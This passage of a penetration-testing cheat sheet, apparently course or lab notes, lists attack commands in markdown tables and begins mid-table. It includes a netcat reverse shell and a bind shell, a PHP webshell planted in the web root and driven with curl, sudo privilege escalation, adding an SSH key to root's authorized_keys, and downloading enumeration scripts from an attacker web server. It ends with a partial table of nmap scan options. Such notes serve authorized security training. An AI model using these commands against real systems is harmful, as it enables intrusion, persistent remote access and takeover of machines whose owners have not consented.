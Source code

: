 | `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server |
| `nc 10.10.10.1 1234` | Connect to a bind shell started on the remote server |
| `python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (1) |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice | Upgrade shell TTY (2) |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create a webshell php file |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute a command on an uploaded webshell |
| **Privilege Escalation** |
| `./linpeas.sh` | Run `linpeas` script to enumerate remote server |
| `sudo -l` | List available `sudo` privileges |
| `sudo -u user /bin/echo Hello World!` | Run a command with `sudo` |
| `sudo su -` | Switch to root user (if we have access to `sudo su`) |
| `sudo su user -` | Switch to a user (if we have access to `sudo su`) |
| `ssh-keygen -f key` | Create a new SSH key |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user |
| `ssh root@10.10.10.10 -i key` | SSH to the server with the generated private key |
| **Transferring Files** |
| `python3 -m http.server 8000` | Start a local webserver |
| `wget http://10.10.14.1:8000/linpeas.sh` | Download a file on the remote server from our local machine |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file on the remote server from our local machine |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh` | Transfer a file to the remote server with `scp` (requires SSH access) |
| `base64 shell -w 0` | Convert a file to `base64` |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell` | Convert a file from `base64` back to its orig |
| `md5sum shell` | Check the file's `md5sum` to ensure it converted correctly |

<a id="reconnaissance-enumeration--attack-planning"></a>
## Reconnaissance, Enumeration & Attack Planning

<a id="3-network-enumeration-with-nmap"></a>
### 3. Network Enumeration with Nmap

#### Scanning Options

| **Nmap Option** | **Description** |
|---|----|
| `10.10.10.0/24` | Target network range. |
| `-sn` | Disables port scanning. |
| `-Pn` | Disables ICMP Echo Requests |
| `-n` | Disables DNS Resolution. |
| `-PE` | Performs the ping scan by using ICMP Echo Requests against the target. |
| `--packet-trace` | Shows all packets sent and received. |